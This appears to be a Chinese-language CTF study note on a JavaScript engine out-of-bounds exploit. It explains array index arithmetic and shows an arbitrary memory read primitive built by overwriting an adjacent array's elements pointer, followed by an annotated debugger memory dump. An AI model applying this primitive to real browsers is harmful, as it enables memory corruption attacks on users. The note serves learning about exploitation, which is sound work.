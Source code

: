 oobDblIndex：内存数组4字节的第oobDblIndex位，如果按8字节计算oobDblIndex/2
objIndex：内存数组4字节的第objIndex位，8字节就是objIndex/2

oobDblIndex是8字节数组
于是，objIndex的首位相对oobDblIndex就是 `oobDblIndex[objIndex/2-oobDblIndex/2]`


看看从地址读

```js
function read(addr, dblArrOffset) {
  var oldValue = oobDblArr[dblArrOffset];
  oobDblArr[dblArrOffset] = i32tof(addr, 2);
  var out = ftoi32(oobDblArr2[0]);
  oobDblArr[dblArrOffset] = oldValue;
  return out;
}
//dblArrOffset=(oobDbl2Index - oobDblIndex - 5) >> 1
```

![](../images/Pasted%20image%2020250529161121.png)

可是偏移量为什么要-5呢

根据之前ctf题步骤大概是：
改变elements地址，再输出对应数组的第0位，输出指定地址指向的地址存储的数据

那么oobDbl2Index-5是什么位置呢

对于题解来说：

```
000001e9`000421f0  00000000 00000082 00000000 40508000
000001e9`00042200  00000000 40544000 00000000 40548000
000001e9`00042210  00000000 3ff80000 00000901 00000006
000001e9`00042220  00000000 40504000 00000000 40508000

0000034a`00042230  00000000 3ff80000 [-6]0018eabd [-5]00000219
0000034a`00042240  [-4]00042251 [-3]00000006 [-2]0000117d [-1]00208cb1
0000034a`00042250  [i]00000901 00000006 [my-i]00000000 40504000
0000034a`00042260  00000000 40508000 00000000 3ff80000

000001e9`00042270  00000089 00000004 00000000 00848484
000001e9`00042280  0018eb3d 00000219 00042299 00000004
oobObjAddr:
000001e9`00042290  0000117d 002084f1 00000089 00000004
000001e9`000422a0  0019b819 00848484 00000591 00000003
```
